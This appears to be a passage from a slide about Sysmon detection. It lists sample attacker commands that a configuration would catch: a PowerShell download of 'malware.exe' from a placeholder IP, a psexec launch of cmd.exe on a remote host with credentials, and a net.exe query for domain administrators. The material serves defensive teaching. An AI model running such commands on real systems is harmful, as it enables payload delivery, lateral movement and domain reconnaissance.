

# Sysmon
That configuration would catch things like:

powershell -command “& { (New-Object Net.WebClient).DownloadFile(‘http://111.777.888.999/malware.exe’)

psexec \\Remote-Host -u AD\user -p password cmd.exe

net.exe groups “domain administrators" /domain